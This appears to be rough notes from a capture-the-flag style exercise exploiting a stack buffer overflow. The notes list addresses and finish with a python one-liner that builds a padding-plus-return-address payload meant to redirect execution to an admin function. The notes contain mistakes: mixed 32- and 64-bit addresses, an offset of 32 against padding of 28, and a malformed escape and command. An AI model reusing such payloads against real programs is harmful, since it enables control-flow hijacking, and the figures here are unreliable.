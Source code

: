 gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin
![](./RCE_location.png)

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge
